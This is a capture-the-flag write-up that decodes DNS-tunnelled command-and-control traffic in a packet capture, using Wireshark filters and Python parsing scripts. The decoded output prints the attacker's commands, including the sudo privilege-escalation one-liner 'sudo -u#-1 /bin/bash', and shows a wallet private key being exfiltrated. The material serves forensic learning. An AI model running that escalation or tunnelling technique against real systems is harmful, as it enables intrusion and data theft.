







# Portabello 53 - Bargaining

This challenge was part of a series of challenges all involving the same packet capture file (link). For this specific challenge, we were told to examine traffic to and from `fd00:6e73:6563:3232::23`, so let's fire up wireshark and get filtering!

We start out by applying the filter `ipv6.addr == fd00:6e73:6563:3232::23` to scope things down to the host of interest. We probably normally would also need to filter for only DNS traffic (since the challenge text hints that they've noticed abnormal DNS traffic), but in this particular case the capture seems to only contain DNS traffic to/from the host in question, so we get away with not adding protocol to our filter statement.


 

As you can see, there's some noise left in the capture-- DNS queries to things like spotify and microsot update. However, within the first few packets there are also requests for a .ctf domain, namely wpad.ctf. This is promising-- lets refine our filter to just this domain for now using: `ipv6.addr == fd00:6e73:6563:3232::23 and dns.qry.name contains wpad.ctf`


 

Now, looking at the first packet in the new view, we see a request for a long subdomainfrom our target host, specifically `474f415453.wpad.ctf`. At first, I thought this was probably information being exfiltrated directly, but looking further down the capture, we can actually see that this exact subdomain gets requested a LOT, which suggests it's not being used to exfiltrate data directly, as we'd expect to see many different similarly formatted subdomains and few repeated values if that were the case. Let's see if the response to this query can shed any light on what is going on:


 

Looking at the answer section here, at first it just seems to be a regular response containing a (short) IPv6 address. However, when we look further down at the actual packet bytes pane, we can see that there seems to be an ACII "NO" in the bytes of the IPv6 address. This suggests that we should be looking out for IPv6 addresses that contain bytes that look like printable characters. Honestly, at this point I just scrolled through the whole capture watching the bottom pane, which led me to the first flag, spread across the next few packets! 


 

During this same scrolling process, I noticed some other interesting packets-- namely, query responses that contain `SHELL:` followed by various strings that look like shell commands in the IPv6 address. 


 

Right after the first `SHELL:` response (`SHELL:hostname`), the pattern of queries also changes-- we start seeing requests for something other than `474f415453.wpad.ctf`-- the immediate next query is for `0.7666742d7365637572652d7661756c742e7972722e636f7270.echo.474f415453.wpad.ctf`:


 

This definitely looks like some sort of data being exfiltrated-- my first attempt at decoding was to just take everything after `echo` and try to decode it; since all of the characters appear to be in the hex range, I tried decoding it as hex bytes and interpreting them as ascii using python3:


```python3
>>> s = '0.7666742d7365637572652d7661756c742e7972722e636f7270'
>>> data = s.replace('.','')
>>> bytes.fromhex(data).decode('ascii')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: non-hexadecimal number found in fromhex() arg at position 51
```


This error isn't super helpful unfortunately-- what it's actually complaining about is that the string we're feeding to `bytes.fromhex` isn't an even number of characters, and thus can't be treated as hex bytes. My initial assumption was just that some data was missing, so I tried padding the stream out to an even length by adding another `0` to the front of it (this ended up being an incorrect assumption, but bear with me!). Decoding this new padded string, I got a usable result:


```python3
>>> s = '0.7666742d7365637572652d7661756c742e7972722e636f7270'
>>> data = s.replace('.','')
>>> data = '0'+data
>>> bytes.fromhex(data).decode('ascii')
'\x00vft-secure-vault.yrr.corp'
```

Now, recall that the previous packet we saw contained `SHELL:hostname`; this response looks an awful lot like a hostname, so it seems we may be seeing the output of the `hostname` command being exfiltrated in this query.

At this point, some less-manual inspection was in order; probably the most correct way to proceed from here would have been to use tshark or scapy to parse the capture and extract the hostnames being queried and decode them. However, this was a CTF and I wanted something quick and dirty, so instead I used wireshark's filter, copy and paste features to export what I needed. The filter I used for this was `ipv6.addr == fd00:6e73:6563:3232::23 and dns.qry.name contains "echo"`. This export wasn't entirely trivial due to some UI weirdness with wireshark. Bringing up the right click context menu to copy packets will also clear the current selection, and we want to select everything, so I ended up selecting everything with ctrl-a, then using the edit menu to pull up the copy context menu instead of right clicking. I copied all the packets in my selection as CSV-- a sample of the output follows:


 


```
"No.","Time","Source","Destination","Protocol","Length","Info"
"1053","92.931525346","fd00:6e73:6563:3232::23","fd00:6e73:6563:3232::100","DNS","157","Standard query 0xcf43 AAAA 0.7666742d7365637572652d7661756c742e7972722e636f7270.echo.474f415453.wpad.ctf"
"1056","93.039684707","fd00:6e73:6563:3232::100","fd00:6e73:6563:3232::23","DNS","185","Standard query response 0xcf43 AAAA 0.7666742d7365637572652d7661756c742e7972722e636f7270.echo.474f415453.wpad.ctf AAAA 0:4f4b::"
"1522","109.257521570","fd00:6e73:6563:3232::23","fd00:6e73:6563:3232::100","DNS","129","Standard query 0x9b98 AAAA 0.726f7369652e6d65796572.echo.474f415453.wpad.ctf"
"1530","109.514634653","fd00:6e73:6563:3232::100","fd00:6e73:6563:3232::23","DNS","157","Standard query response 0x9b98 AAAA 0.726f7369652e6d65796572.echo.474f415453.wpad.ctf AAAA 0:4f4b::"
```

This is the quick and dirty code that I used as a first pass to extract the exfiltrated data (note that it doesn't grab the commands being executed, no real reason other than laziness). This code slightly differs from what I was doing in the above examples, in that it just takes the entirety of the long hex label, and ignores the leading 0. label:


```python3
import sys
lines = open(sys.argv[1]).readlines()
for line in lines[1:]:
    values = line.split(',')
    if 'Standard query response' in line:
        continue
    else:
        name = values[-1].split('AAAA')[-1]
        print('name:',name)
	labels = name.split('.')
        if labels[0].strip() == '474f415453':
            print('heartbeat')
            continue
        parameter = labels[1]
	print(parameter)
        print(bytes.fromhex(parameter).decode())

```

However, this code didn't work as well as I'd hoped:

```shell
danny@corvid:~/Documents/ctf/portabello$ python3 parse_1.py portabello_commands.csv 
name:  0.7666742d7365637572652d7661756c742e7972722e636f7270.echo.474f415453.wpad.ctf"

output: vft-secure-vault.yrr.corp
name:  0.726f7369652e6d65796572.echo.474f415453.wpad.ctf"

output: rosie.meyer
name:  0.4f4b.echo.474f415453.wpad.ctf"

output: OK
name:  0.5375646f2076657273696f6e20312e382e3237.echo.474f415453.wpad.ctf"

output: Sudo version 1.8.27
name:  0.4f4b.echo.474f415453.wpad.ctf"

output: OK
name:  0.726f6f74.echo.474f415453.wpad.ctf"

output: root
name:  16.746f74616c2033330a647277782d2d2d2d2d2d20203620726f6f7420726f6f7.echo.474f415453.wpad.ctf"

Traceback (most recent call last):
  File "parse_1.py", line 18, in <module>
    print('output:',bytes.fromhex(parameter).decode())
ValueError: non-hexadecimal number found in fromhex() arg at position 63

```

This error looks familiar-- it seems that some of our labels aren't even-length hex strings. Looking at the packet in question, we see it has a different first label-- `16` rather than `0` like most of the earlier packets. The next few queries and responses also have nonzero first labels, and they seem to be counting down. 


```
"4429","185.799511293","fd00:6e73:6563:3232::23","fd00:6e73:6563:3232::100","DNS","171","Standard query 0xc267 AAAA 16.746f74616c2033330a647277782d2d2d2d2d2d20203620726f6f7420726f6f7.echo.474f415453.wpad.ctf"
"4435","185.932159006","fd00:6e73:6563:3232::100","fd00:6e73:6563:3232::23","DNS","199","Standard query response 0xc267 AAAA 16.746f74616c2033330a647277782d2d2d2d2d2d20203620726f6f7420726f6f7.echo.474f415453.wpad.ctf AAAA 0:4f4b::"
"4437","185.984425817","fd00:6e73:6563:3232::23","fd00:6e73:6563:3232::100","DNS","171","Standard query 0xf841 AAAA 15.42034303936204a616e2020372030393a3537202e0a64727778722d78722d78.echo.474f415453.wpad.ctf"
"4444","186.160476239","fd00:6e73:6563:3232::100","fd00:6e73:6563:3232::23","DNS","199","Standard query response 0xf841 AAAA 15.42034303936204a616e2020372030393a3537202e0a64727778722d78722d78.echo.474f415453.wpad.ctf AAAA 0:4f4b::"
"4447","186.207229480","fd00:6e73:6563:3232::23","fd00:6e73:6563:3232::100","DNS","171","Standard query 0x8faf AAAA 14.20313920726f6f7420726f6f742034303936204465632033312031303a33382.echo.474f415453.wpad.ctf"
"4450","186.307131508","fd00:6e73:6563:3232::100","fd00:6e73:6563:3232::23","DNS","199","Standard query response 0x8faf AAAA 14.20313920726f6f7420726f6f742034303936204465632033312031303a33382.echo.474f415453.wpad.ctf AAAA 0:4f4b::"
"4453","186.355062927","fd00:6e73:6563:3232::23","fd00:6e73:6563:3232::100","DNS","171","Standard query 0xd7fb AAAA 13.02e2e0a2d72772d722d2d722d2d20203120726f6f7420726f6f742033313036.echo.474f415453.wpad.ctf"
"4457","186.546804108","fd00:6e73:6563:3232::100","fd00:6e73:6563:3232::23","DNS","199","Standard query response 0xd7fb AAAA 13.02e2e0a2d72772d722d2d722d2d20203120726f6f7420726f6f742033313036.echo.474f415453.wpad.ctf AAAA 0:4f4b::"
"4460","186.591418306","fd00:6e73:6563:3232::23","fd00:6e73:6563:3232::100","DNS","171","Standard query 0x1d20 AAAA 12.204d6179203230202032303232202e6261736872630a64727778722d78722d7.echo.474f415453.wpad.ctf"
"4465","186.776361760","fd00:6e73:6563:3232::100","fd00:6e73:6563:3232::23","DNS","199","Standard query response 0x1d20 AAAA 12.204d6179203230202032303232202e6261736872630a64727778722d78722d7.echo.474f415453.wpad.ctf AAAA 0:4f4b::"

```

The second label is also considerably longer in these queries-- they are all 63 characters, which is the maximum allowed length for a DNS label. All of this put together suggested to me that these labels might be sequential data in a multi-part message. To check if this was the case, I tried modifying my code to concatenate together sequential messages with nonzero labels:


```python3
import sys
lines = open(sys.argv[1]).readlines()
builder = ''
for line in lines[1:]:
    values = line.split(',')
    if 'Standard query response' in line:
        continue
    else:
        name = values[-1].split('AAAA')[-1]
        labels = name.split('.')
        if labels[0].strip() == '474f415453':
            print('heartbeat')
            continue
        count = int(labels[0])
        parameter = labels[1]

        #print(parameter)
        builder+=parameter
        if count==0:
            try:
                b= bytes.fromhex(builder)
                txt = b.decode('ascii')
                print('resp',txt)
            except:
                print('error',builder)
```

It produced the following result. Note that the output is getting duplicated because my above code is buggy and doesn't reset the `builder` variable after outputting a multipart message-- I actually never paid enough attention to my output during the CTF to notice this issue since it was still usable:


```shell
danny@corvid:~/Documents/ctf/portabello$ python3 parse_1.py portabello_commands.csv 
resp vft-secure-vault.yrr.corp
resp vft-secure-vault.yrr.corprosie.meyer
resp vft-secure-vault.yrr.corprosie.meyerOK
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OK
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroot
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroottotal 33
drwx------  6 root root 4096 Jan  7 09:57 .
drwxr-xr-x 19 root root 4096 Dec 31 10:38 ..
-rw-r--r--  1 root root 3106 May 20  2022 .bashrc
drwxr-xr-x  4 root root 4096 Jan  4 13:21 .cache
drwxr-xr-x  3 root root 4096 Jan 31 17:05 .config
-r--r--r--  1 root root 3106 May 20  2022 wallet-pub.txt
-r--------  1 root root 3106 May 20  2022 wallet-priv.txt
drwx------  3 root root 4096 Dec 31 11:27 .dbus
drwxr-xr-x  3 root root 4096 Jan  4 13:20 .local
-rw-r--r--  1 root root  161 Apr 28  2022 .profile
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroottotal 33
drwx------  6 root root 4096 Jan  7 09:57 .
drwxr-xr-x 19 root root 4096 Dec 31 10:38 ..
-rw-r--r--  1 root root 3106 May 20  2022 .bashrc
drwxr-xr-x  4 root root 4096 Jan  4 13:21 .cache
drwxr-xr-x  3 root root 4096 Jan 31 17:05 .config
-r--r--r--  1 root root 3106 May 20  2022 wallet-pub.txt
-r--------  1 root root 3106 May 20  2022 wallet-priv.txt
drwx------  3 root root 4096 Dec 31 11:27 .dbus
drwxr-xr-x  3 root root 4096 Jan  4 13:20 .local
-rw-r--r--  1 root root  161 Apr 28  2022 .profileLorem ipsum dolor sit amet, consectetur adipiscing elit. Praesent imperdiet pretium bibendum. Phasellus sit amet odio sit amet nunc facilisis dignissim. Proin vel auctor mauris. Duis id lorem sed orci imperdiet ultrices eu ac felis. Pellentesque ut leo vitae dui tincidunt dapibus in eget erat. Morbi eu ligula quis urna ullamcorper cursus sit amet at justo. Pellentesque vestibulum mattis lectus, non suscipit mi aliquam at. Nullam et dictum libero. Aliquam ultricies feugiat nunc, et pulvinar eros hendrerit eu. Aenean consectetur nulla a metus lacinia tempus. Nulla eu feugiat orci. In hac habitasse platea dictumst. Integer sit amet dolor nunc. Aliquam vehicula leo quis feugiat pulvinar. Etiam ac interdum felis. 
            Wallet private:  L5mj2Yt5rfYXprowC8pUBsyC9R1PgKKpfQSNqcBRZBiaXUg5bi5s
            flag-blockchaiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiin
            In posuere, nisl eu aliquet ultrices, urna elit aliquam mi, vel suscipit ante nibh eget nibh. Sed massa lorem, condimentum ut odio at, rutrum iaculis lectus. Aenean libero arcu, pretium dapibus nunc auctor, lacinia gravida lorem. Duis vitae vulputate ligula. Quisque tincidunt risus nec luctus ornare. Curabitur sed sagittis odio. Vivamus a leo id diam bibendum gravida. Integer efficitur ultrices odio. Aliquam egestas, nisl et mollis lobortis, augue leo consectetur enim, quis dictum justo sapien et justo.
```


We can see the flag in this response! After submitting the flag, we got another hint for the final flag:


> Our AI appliance was supposed to catch anything malicious and yet it let the private key to our wallet get leaked. This is bad for the company.
Can you also tell me which CVE was used to do priviledge escalation? I want to get ready to blame someone else.
Use this format: flag-bargaining\_{MD5 hash of the string CVE-XXXX-YYYYYYYYYY} (without the {}).


So, now we need to actually extract the commands used-- we can do this by modifying our script:


```python3
import sys
lines = open(sys.argv[1]).readlines()
builder = ''
for line in lines[1:]:
    values = line.split(',')
    if 'Standard query response' in line:
        #print('command', values)
        addr = values[-1].split('AAAA')[-1].replace('"','').replace(' ','').strip()
        chunks = addr.split(':')
        real_addr=''
        for chunk in chunks:
            if chunk=='0':
                real_addr+='00'
            else:
                real_addr+=chunk

        #print('addr',real_addr)
        try:
            print('cmd',bytes.fromhex(real_addr).decode('ascii'))
        except:
            print('error', real_addr)
    else:
        name = values[-1].split('AAAA')[-1]
        labels = name.split('.')
        if labels[0].strip() == '474f415453':
            print('heartbeat')
            continue
        count = int(labels[0])
        parameter = labels[1]

        builder+=parameter
        if count==0:
            try:
                b= bytes.fromhex(builder)
                txt = b.decode('ascii')
                print('resp',txt)
            except:
                print('error',builder)                             
```

This produces the following (somewhat voluminous) output:


```shell
danny@corvid:~/Documents/ctf/portabello$ python3 parse.py portabelloextract.txt 
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:hostname
resp vft-secure-vault.yrr.corp
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:whoami
resp vft-secure-vault.yrr.corprosie.meyer
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd @FLAG: flag-we_
heartbeat
cmd 0have_a_bad_cas
heartbeat
cmd  e_of_ophiocord
heartbeat
cmd yceps_unilater
heartbeat
cmd alis
resp vft-secure-vault.yrr.corprosie.meyerOK
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd  SHELL:sudo -V|
heartbeat
cmd grep "Sudo ver
heartbeat
cmd "
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:sudo -u#
heartbeat
cmd -1 /bin/bash
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OK
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:id -un
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroot
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:ls -la
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroottotal 33
drwx------  6 root root 4096 Jan  7 09:57 .
